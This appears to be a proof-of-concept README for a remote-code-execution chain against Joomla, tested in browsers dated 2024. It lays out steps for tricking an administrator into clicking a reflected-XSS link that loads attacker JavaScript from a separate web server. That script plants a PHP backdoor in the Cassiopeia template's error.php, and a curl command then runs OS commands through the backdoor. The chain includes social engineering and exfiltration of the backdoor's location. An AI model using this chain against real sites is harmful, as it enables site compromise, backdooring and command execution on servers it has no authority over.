

# [RCE] Patch File

## Test Environment

### Web Browsers (20240224)

* [x] Mozilla Firefox Version 123.0 (64-bit)
* [x] Google Chrome Version 122.0.6261.70 (64-bit)
* [x] Microsoft Edge Version 122.0.2365.52 (64-bit)

## Exploitation Steps

1. [setup exploit] change payload variable values (`patchFileJoomla.js`)

    `phpBdURL` - URL of PHP backdoor to be installed on target site

    `joomlaRoot` - path to Joomla installation on the target system (e.g. `"/path"`)

2. [setup exploit] setup web server (to serve the payload/backdoor)

    * **NOTE**: update/customize PHP backdoor in `bd.txt`

3. [social engineering attack] victim user (with administrative privileges) logs in

    http://192.168.5.19/administrator

4. [social engineering attack] victim user clicks link

    ```
    http://192.168.5.19/test/rxss.php?q=<script src=http://192.168.5.15/patchFileJoomla.js></script>
    ```

    * **NOTES**:
      * `192.168.5.19` - target Joomla site
      * `192.168.5.15` - web server hosting payload

5. [post exploit] execute OS command

    ```
    curl "http://192.168.5.19/templates/cassiopeia/error.php?pass=test&cmd=id"
    ```

    * **NOTE**: endpoint URL constructed based on exfiltrated data (obtained via `GET` request, when fetching `bd.txt`)

6. [restore file] restore file via GUI

    *Joomla ➔ System ➔ [Templates] Site Templates ➔ Cassiopeia Details and Files ➔ [tab] Editor ➔ /templates/cassiopeia - error.php ➔ (remove backdoor) ➔ Save & Close*

## Screenshots

* **NOTE**: the screenshot covers steps 1 to 5 from the "Exploitation Steps" chapter


